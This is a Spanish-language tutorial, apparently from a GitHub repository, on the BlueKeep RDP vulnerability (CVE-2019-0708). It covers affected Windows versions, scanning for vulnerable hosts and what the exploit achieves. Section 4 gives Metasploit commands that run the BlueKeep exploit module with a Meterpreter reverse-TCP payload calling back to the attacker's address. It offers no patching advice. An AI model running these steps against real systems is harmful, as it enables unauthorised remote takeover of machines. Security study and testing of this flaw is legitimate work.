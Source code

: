 # BlueKeep (CVE-2019-0708)

## 1. ¿Qué es BlueKeep?

- Vulnerabilidad crítica en el servicio **Remote Desktop Protocol (RDP)** de Windows.
- Permite **ejecución remota de código** sin autenticación previa (wormable).
- Afecta versiones antiguas de Windows sin parches.
- Detectada y parcheada en mayo de 2019.
- Puede propagarse automáticamente, similar a WannaCry.

---

## 2. Versiones de Windows afectadas

- Windows 7 SP1 (todas las ediciones)
- Windows Server 2008 R2
- Windows Server 2008 (sin SP1)
- Windows XP y Windows Server 2003 (aunque no reciben soporte oficial)

---

## 3. Cómo identificar sistemas vulnerables

### a) Usar Nmap con script para BlueKeep

```bash
nmap -p 3389 --script rdp-vuln-ms12-020 <IP_objetivo>
```

Aunque este script es para MS12-020, algunas versiones actualizadas detectan BlueKeep.

### b) Usar herramientas especializadas

- **rdp-sec-check.py** o **rdp-vuln-check** (scripts de Python disponibles en GitHub)
- Escáneres de vulnerabilidades RDP comerciales y de código abierto.

---

## 4. Cómo explotar BlueKeep con Metasploit

### a) Iniciar msfconsole

```bash
msfconsole
```

### b) Seleccionar módulo exploit

```bash
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

### c) Configurar opciones básicas

```bash
set RHOSTS <IP_objetivo>
set RPORT 3389
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <tu_IP>
set LPORT <tu_puerto>
```

### d) Ejecutar el exploit

```bash
run
```

Si es exitoso, obtendrás una sesión Meterpreter con control remoto.

---

## 5. ¿Qué hace el exploit?

- Aprovecha una falla en el manejo de solicitudes RDP que permite ejecución remota de código con privilegios SYSTEM.
- No requiere interacción del usuario ni credenciales.
- Puede usarse para desplegar malware, ransomware, o para control remoto completo del sistema.
- La vulnerabilidad es "wormable", lo que significa que puede propagarse automáticamente entre sistemas vulnerables.


